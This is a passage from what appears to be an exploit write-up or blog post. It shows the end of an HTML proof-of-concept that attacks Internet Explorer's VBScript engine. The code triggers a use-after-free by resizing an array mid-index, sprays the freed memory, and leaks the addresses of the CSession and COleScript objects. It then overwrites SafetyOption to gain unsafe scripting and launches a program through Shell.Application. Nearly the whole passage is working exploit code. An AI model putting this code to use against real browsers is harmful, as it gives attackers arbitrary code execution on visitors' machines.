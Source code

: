 ```html
            csession = strToInt(Mid(mem, 3, 2))
            ' Leak COleScript address from CSession instance
            mem = leakMem(arg1, csession + 4)
            olescript = strToInt(Mid(mem, 1, 2))
            ' Overwrite SafetyOption in COleScript (e.g. god mode)
            ' e.g. changes it to 0x04 which is not in 0x0B mask
            overwrite arg1, olescript + &H174

            ' Execute notepad.exe
            Set Object = CreateObject("Shell.Application")
            Object.ShellExecute "notepad"
        End Function

        Function triggerBug
            ' Resize array we are currently indexing
            aw.Resize()

            ' Overlap freed array area with our exploit string
            Dim i
            For i = 0 To 32
                ' 24000x2 + 6 = 48006 bytes
                y(i) = Mid(x, 1, 24000)
            Next
        End Function
    </script>

    <script type="text/javascript">
        function strToInt(s)
        {
            return s.charCodeAt(0) | (s.charCodeAt(1) << 16);
        }
        function intToStr(x)
        {
            return String.fromCharCode(x & 0xffff) + String.fromCharCode(x >> 16);
        }
        var o;
        o = {"valueOf": function () {
                triggerBug();
                return 1;
            }};
        setTimeout(function() {exploit(o);}, 50);
    </script>
</body>
</html>
```

Obligatory screenshot:

<div class="text-center" style="margin-bottom: 1em">
